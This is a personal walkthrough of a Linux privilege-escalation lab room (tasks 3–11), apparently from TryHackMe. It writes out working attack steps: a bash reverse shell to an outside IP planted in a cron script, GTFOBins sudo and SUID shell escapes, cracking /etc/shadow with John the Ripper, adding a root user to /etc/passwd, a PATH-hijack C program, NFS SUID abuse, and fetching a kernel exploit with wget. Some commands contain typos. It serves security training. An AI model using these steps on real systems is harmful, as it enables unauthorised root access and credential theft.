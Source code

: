 # Linux Priviledge Escalation Room

## TASK 3
This task highlighted some commonly used commands for Linux to help guide you into who you are, what connectivity from this device is, and what to look for as possible vulnerability.
- ```uname -a ```
- ``` hostname  ```
- ```cat /proc/version```
- ```cat /etc/issue```
- ```ps -A ``` or ```ps axjf```
- ```sudo -l```
- ```cat /etc/passwd```
- ```ifconfig```
- ```netstat -at```
- ```find /home -name flag1.txt```  or ``` find / -type f -perm 0777 ```
    - ``` find / -perm -u=s -type f 2>/dev/null ``` allows you to find SUID bit files, which allows us to run the file with a higher privilege level than the current user.


## TASK 5
In the room for the Linux Exploitation Task 5, you'll need to use the HackBox to create a new file called `ofs.c` with the contents of the `CVE-2015-1328.c` in it. This is based on the content of the exploit here https://www.exploit-db.com/exploits/37292. Spin up a python3 server by executing: 
    ``` python3 -m http.server 9000```
Then from the target computer, you'll use wget to download the ofs.c file and compile it using the command:
    ```gcc ofs.c -o ofs```
This should result in you opening a shell that results in you being root


## TASK 6
 
For this task the new box needs to be spun up so that there's a box that has the name `LinPrivEscSUDO`. TO start answering questions you'll need to first execute the command to find out which services the current user has the ability to run without password the sudo command. In this case I ran
    ```sudo -l```
From here it lisited the number of services that is the answer to the first question on this task. I was able to go to the site that's referenced in the dialague for this task [GTFOBins](https://gtfobins.github.io/) and search for each of the services listed to see which one would allow us to escalate into a shell that is root privileges. This case I used the command
     ``` sudo find . -exec /bin/sh \;``` 
which started a root session and from there able to cat the flag2.txt file for the answer to the second question. For the third question, using [GTFOBins](https://gtfobins.github.io/) searched for the sudo use of nmap and used the command I found there for the correct answer. Last question took a little bit of searching for how to accomplish the goal, but what I learned was that ```cat /etc/passwd``` allowed me to see that despite frank not having a home directory, frank did have a password hash stored in /etc/shadow. Pretty cool details for how to interpret that file found on this [site](https://takahideiwai.github.io/Cryptography/01-passwordcracking/index.html)


## TASK 7
This task is similar to the one above, but we need to deal with the set user id (SUID) and set group id (SGID) concepts. Using the command:
    ```find / -type f -perm -04000 -ls 2>/dev/null```
we are able to find out which services you can actually run as the owner of those services. The use of [GTFOBins] is still relevant here to list which services have SUID exploits. This section also includes the steps for using the /etc/shadow and /etc/passwd files to list valuable information. Steps are as follows:

- Create outputs of both files by running ```nano passwd.txt ``` and  ```nano shadow.txt``` and copy the contents of the ```base64 "$LFILE" | base64 --decode``` command for each while replacing the LFILE variable with which file you need to read.
- Use the unshadow tool to export to a file with ```unshadow passwd.txt shadow.txt > passwords.txt```
- Execute John the Ripper with a wordlist that will print out password in plain text ```john passwords.txt --wordlists /usr/share/wordlists/rockyou.txt``` if executing from the AttackBox. Then 

The Alternative path was to add the new user hash to the /etc/passwd file with root permissions. This could be done by using the ```openssl passwd -1 -salt ``` command and adding ```:/root:/bin/bash``` permission. This second route only works if you have the ability to sudo into root and adding edit permissions on the /etc/passwd file. 

## TASK 8
This task looks at the capabilities of the binaries on the box. using the command ```getcap -r / 2>/dev/null``` was able to answer the first three questions of this section. The additional binary that was found on the box for me was a service called view. In this case to take advantange of the capabilities I used the command
    ```/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'```
This started a shell that would be started as root and I'd be able to print the contents of the flag file.

## TASK 9
I used the ```cat /etc/crontab``` command to find the list of all the chron jobs across the system. Finding the file that my user owns, I modify that file by adding the command:
    ```bash -i >&/dev/tcp/10.10.14.15/9000 >&1```
Once you verify that the backup.sh file has +x permissions on it, you should be ready to set up the listener on the AttackBox:
    ```nc -lnvp 9000```
The reverse shell should show up and the flag is fairly straight forward to find from there. To get Matt's password we need some of the previous skills from previous tasks to help us out. Since we're already running as root, we should be able to dump the /etc/passwd and /etc/shadow files so that we can run John the Ripper on the AttackBox to crack the code.

## TASK 10
In this task had the opportunity to use path exploits. First step was creating a C file that setuid(0) and setgid(0). 
    ```c
    #include<unistd.h>
            void main(){
                setuid(0);
                setgid(0);
                system("thm");
            }
    ```
I needed to compile this first by using th ```gcc path_exp.c -o path -w``` command before spinning up a python server ```python3 -m http.server 9000 ``` and using wget to download it to the target. Next finding paths that were writeable by using ```find  -writeable 2>/dev/null``` found an interesting path that I had access to write to. In that path is where I downloaded the compiled path file for execution and made sure it had permissions to be executed. Executing the ./test file to see if my the thm script worked, it prints out the flag contents.

## TASK 11
find the mounts from the attackbox by executing ```showmounts -e {IP}``` and then make a directory on the attackbox to mount the share drives from the target to. ```mount -o rw 10.10.219.55:/home/backup /tmp/backuptarget``` In that directory created a file that executed a ```system("/bin/bash");``` in a c file and compiled it with gcc. Doing a ```chmod +s ``` on the compiled file that was made you can note that this file is owned by root. and once executing the ./nfs file, the shell transitions from being my initial user to root.

